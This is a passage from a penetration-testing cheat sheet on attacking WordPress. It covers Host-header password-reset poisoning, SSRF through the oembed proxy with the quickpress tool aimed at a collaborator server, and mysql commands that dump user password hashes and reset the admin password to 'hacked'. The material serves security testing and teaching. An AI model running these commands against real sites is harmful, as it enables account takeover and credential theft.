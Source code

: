 Wordpress will trigger the password reset function for the admin user account. Because of the modified HOST header, the SERVER\_NAME will be set to the hostname of attacker's choice. As a result, **Wordpress will pass the reset password email to the attacking domain**.
{% endtab %}
{% endtabs %}

#### SSRF

{% tabs %}
{% tab title="Oembed" %}
Try to access following url and the Worpress site may make a request to you.

```
/wp-json/oembed/1.0/proxy?url=http://10.0.0.1/
```

We can use [this tool](https://github.com/incogbyte/quickpress). It checks if the **methodName: pingback.ping** and for the path **/wp-json/oembed/1.0/proxy** and if exists, it tries to exploit them.

```bash
quickpress -target https://target.com -server http://burpcollaborator.net
```
{% endtab %}
{% endtabs %}

### Post-Exploitation

{% tabs %}
{% tab title="wp-config.php" %}
The `wp-config.php` file contains information required by WordPress to connect to the database such as the database name, database host, username and password, authentication keys and salts, and the database table prefix. This configuration file can also be used to activate DEBUG mode, which can useful in troubleshooting.

With database credentials we can dump username and password and change admin password e.g. with mysql:

```bash
#Extract usernames and passwords:
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"

#Change admin password:
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
```
{% endtab %}
{% endtabs %}



## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress" %}

{% embed url="https://exploit-notes.hdks.org/exploit/web/cms/wordpress-pentesting/" %}

